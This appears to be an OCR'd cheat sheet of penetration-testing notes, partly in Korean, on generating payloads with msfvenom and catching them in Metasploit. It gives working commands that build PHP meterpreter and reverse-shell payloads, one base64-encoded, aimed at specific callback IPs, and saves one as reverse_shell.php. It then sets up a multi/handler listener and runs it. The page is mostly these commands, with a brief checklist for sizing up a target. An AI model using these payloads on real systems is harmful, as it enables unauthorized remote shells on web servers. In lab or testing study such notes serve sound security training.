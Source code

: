 # msfvenom -> payload builder in memory

msfvenom --list formats
msfvenom --list payload | grep meterpreter

# 사용 시 주의

4. The target operating system (Is the target operating system Linux or Windows? Is it a Mac device? Is it an Android phone? etc.)
5. Components available on the target system (Is Python installed? Is this a PHP website? etc.)
6. Network connection types you can have with the target system (Do they allow raw TCP connections? Can you only have an HTTPS reverse connection? Are IPv6 addresses not as closely monitored as IPv4 addresses? etc.)

# -p : payload file

msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php

# setting lhost, lport (local)

msf6 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/reverse_php
msf5 exploit(multi/handler) > set lhost 10.0.2.19
msf6 exploit(multi/handler) > set lport 7777
msf6 exploit(multi/handler) > show options

# exploit run

exploit
run
